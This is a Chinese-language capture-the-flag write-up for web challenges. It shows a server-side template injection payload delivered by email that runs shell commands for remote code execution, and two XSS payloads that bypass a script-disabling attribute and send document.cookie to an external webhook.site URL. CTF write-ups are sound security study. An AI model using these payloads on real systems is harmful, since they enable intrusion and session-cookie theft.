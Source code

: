 
# web
### Wanky Mail
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230610204423.png)
访问根目录随机生成一个字符串邮箱,并重定向到 `/base58()` 
可以给他发邮件
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230610205346.png)
可以接收邮件,,,

思路一
> 发送一段ssti,render达成rce

```python
def render_emails(address):
    id = 0
    render = """
    <table>
        <tr>
            <th id="th-left">From</th>
            <th>Subject</th>
            <th id="th-right">Date</th>
        </tr>
    """
    overlays = ""
    m = mails[address].copy()
    for email in m:

        render += f"""
        <tr id="{id}">
            <td>{email['sender']}</td>
            <td>{email['subject']}</td>
            <td>{email['timestamp']}</td>
        </tr>
        """
        overlays += f"""
        <div id="overlay-{id}" class="overlay">
            <div class="email-details">
                <h1>{email['subject']} - from: {email['sender']} to {email['rcpt']}</h1>
                <p>{email['body']}</p>
            </div>
        </div>
        """
        id +=1
    render += "</table>"
    render += overlays
    return render
```

用qq邮箱发送的数据会base64,google不会,但是失败了

---
确实是ssti,但要使用python的smb模块发送,防止被转义

*payload*
```python
import smtplib

payload = "{% endraw %}{{ lipsum.__globals__['os'].popen('cat flag*').read() }}{% raw %}"

smtplib.SMTP('webmail-0.chals.kitctf.de',8025).sendmail(
    'vozec@vuln.fr', 
    'olbqwhaekesl@webmail-0.chals.kitctf.de',
    payload
)
```

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230615194248.png)

### cross-site-python
---
复现时题目环境失效了,docker重新搭一下

### Web-Admin


### Notian
可以添加笔记,但是js代码没有执行
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230615202546.png)

`<body>`标签开启了`data-disable-scripting`,需要我们bypass

---
*payload1*
```html
  <meta name="htmx-config" content='{"disableSelector":"[lol-no]"}'>
    <div _="on intersection(intersecting) put 'https://webhook.site/ddb8754d-41c5-42d4-a8af-d1944274993f?' + document.cookie into location.href"></div>
    <script src="/resources/js/htmx.min.js"></script>
    <script src="/resources/js/hyperscript.min.js"></script>
```

*payload2*
```html
<form method="get" action="https://webhook.site/ddb8754d-41c5-42d4-a8af-d1944274993f">
    <input id="payload" type="text" name="username" placeholder="Username">
    <button type="submit" value="Register">
</form>
<script src="/resources/js/htmx.min.js"></script>
<script src="/resources/js/hyperscript.min.js"></script>

<html lang="en" _="on load log 'foo' 
    then set #payload.value to body.ownerDocument.location.href + '---' + body.ownerDocument.cookie
    then call body.ownerDocument.forms[0].submit()">
</html>
```
# reverse

# pwn

# crypto

# Misc


---
## *相关wp*




2023-06-10   20:35